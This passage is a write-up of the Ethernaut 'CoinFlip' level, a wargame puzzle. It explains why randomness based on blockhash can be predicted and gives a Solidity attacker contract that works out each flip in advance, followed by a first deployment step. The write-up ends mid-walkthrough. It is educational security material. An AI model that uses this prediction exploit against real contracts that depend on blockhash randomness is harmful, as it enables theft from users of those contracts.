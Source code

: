 
### Objectives

"To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row."

### Solution

Generating pseudo-random numbers that are completely unpredictable is a difficult problem within the blockchain. Predicting a coinflip should have a risk of failing of at least 50%, but if we know what factors are used to generate this pseudo-random number, then we can predict the coinflip accurately with a higher probability of success than the intended 50%.

In this case we can _always_ be right, given that there's 2 factors that generate the coinflip:

1. The variable FACTOR

```js
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

2. The block hash of the previous block to the coinflip converted to integer

```js
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```

Our coinflip is floor of the ratio between `blockValue` and `FACTOR`

```js
uint256 coinFlip = blockValue.div(FACTOR);
bool side = coinFlip == 1 ? true : false;
```

The problem is then solved by creating an attacker contract that uses the same logic to generate coinflips, but instead to make the guess. Then the guess is plugged into the `flip()` function. 

```js
function callFlip() external {
    uint256 factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 blockVal = uint256(blockhash(block.number - 1));
    uint256 division = blockVal / factor;
    bool guess = division == 1 ? true : false;
    coinFlipContract.flip(guess);
}
```

### How I did it

I did exactly what I described in the [solution section](#solution-1), but I inherited from Ownable to create the `CoinFlipAttack` contract as a way to restrict calling the `callFlip()` function only from the deployer of the attacker contract. After coding the contract I did the following steps:

1. Deploy (at: `0xA8834Cc6c91bf94d4FB32D72815C2011CC1c2e15`) the attacker contract which I labeled `CoinFlipAttack.sol`

```python
coinflipattack = CoinFlipAttack.deploy(_from)
```
